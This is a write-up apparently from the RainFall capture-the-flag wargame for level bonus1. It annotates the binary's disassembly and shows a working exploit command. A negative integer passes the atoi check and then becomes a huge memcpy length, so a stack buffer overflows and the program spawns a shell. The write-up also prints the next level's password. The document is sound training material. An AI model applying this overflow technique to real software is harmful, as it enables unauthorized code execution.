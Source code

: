 # bonus1

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                 
   0x08048430 <+12>:    add    eax,0x4                              ; ⎦ add 4 to argv: get argv[1]                      
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]                  ; dereference argv[1]: get the string directly      
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax                  ; prepare call to atoi with argv[1]                 
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>                 ; call atoi(argv[1])                                
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax             ; move atoi result to esp+0x3c                      
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9             ; compare argv[1] to 9                              
   0x08048446 <+34>:    jle    0x804844f <main+43>                  ; if argv[1] <= 9: jump to <main+43>              ⎤ 
   0x08048448 <+36>:    mov    eax,0x1                              ; return(1)                                       ⎥ 
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>                 ; jump to the end <main+127>                      ⎥ 
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]             ; get argv[1] argument (stored at <main+25>)      ⎦ 
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]                      ; ecx is initialize                                 
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                
   0x0804845d <+57>:    add    eax,0x8                              ; ⎦ get argv[2]                                     
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]                  ; ⎤                                                 
   0x08048462 <+62>:    mov    edx,eax                              ; ⎥                                                 
   0x08048464 <+64>:    lea    eax,[esp+0x14]                       ; ⎥                                                 
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx              ; ⎥                                                 
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx              ; ⎥                                                 
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax                  ; ⎥                                                 
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>               ; ⎦ call memcpy(buf, argv[2], ecx)                  
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46      ; compare argv[1] address to 0x574f4c46             
   0x08048480 <+92>:    jne    0x804849e <main+122>                 ; if not equal: jump to <main+122>                ⎤ 
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0              ;                                                 ⎥ 
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580        ;                                                 ⎥ 
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583            ;                                                 ⎥ 
   0x08048499 <+117>:   call   0x8048350 <execl@plt>                ; execl("bin/sh")                                 ⎥ 
   0x0804849e <+122>:   mov    eax,0x0                              ; return(0)                                       ⎦ 
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

## Exploit

`bonus1` take _two_ arguments:

- The first is an `int` because `bonus1` does an `atoi` and then compares if it is less or equal at 9. If so, it returns
  with `1`.
- The second is a string which is copied by `memcpy` to a buffer on the stack.

After copy, it compares the first argument to `0x574f4c46` (`1464814662`). If it is not equal, it terminates. The
principle is simple: we are going to take the `INT MIN` (`-2**31`) and add the value of our offset. We exploit the
weakness that `atoi` take an `int` but `memcpy` take a `size_t`, which we can assume is act like an `uint`.

```
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
